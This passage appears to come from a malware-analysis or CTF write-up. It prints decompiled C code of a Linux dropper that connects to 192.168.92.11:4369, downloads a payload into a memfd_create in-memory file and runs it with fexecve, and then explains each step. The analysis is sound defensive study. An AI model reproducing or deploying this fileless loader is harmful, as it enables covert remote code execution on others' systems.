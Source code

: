 Opening the binary in a decompiler, we see a rather simple executable:

```c
int32_t main(int32_t argc, char** argv, char** envp) {

    int32_t argc_1 = argc
    char** argv_2 = argv
    int64_t addr = 0xb5ca8c011110002
    char* argv_1 = "b4ckd00r"
    int64_t var_20 = 0
    int32_t fd = socket(2, 1, 6)

    if (fd s< 0)
        exit(status: 1)
 noreturn

    if (connect(fd, &addr, len: 0x10) s< 0)
        exit(status: 1)
 noreturn

    int32_t fd_1 = memfd_create_wrapper("s3cr3t", 1)

    if (fd_1 s< 0)
        exit(status: 1)
 noreturn

    void buf

    while (read(fd, &buf, nbytes: 0x400) s> 0)
        write(fd: fd_1, &buf, nbytes: 0x400)

    close(fd)
    sleep(seconds: 0x14)

    if (fexecve(fd: fd_1, argv: &argv_1, envp: __environ) s>= 0)
        return 0

    exit(status: 1)
}
```

It starts by creating a `socket` and then, after converting the `addr` variable to an IP:PORT format, it seems that the malware connects to `192.168.92.11:4369`.
Afterwards, it calls the `memfd_create_wrapper()` which is a wrapper around `syscall()`:

```c
int64_t memfd_create_wrapper(int64_t arg1, int32_t arg2) {
    return syscall(0x13f, arg1, zx.q(arg2))
}
```

According to the [man page](https://man7.org/linux/man-pages/man2/memfd_create.2.html), `memfd_create` will create a file descriptor in memory and will act just like any other file!
The 2nd argument we see as `1` is the `MFD_CLOEXEC` flag. This instructs the kernel to close this file descriptor as soon as any of the `exec*` functions succeed.
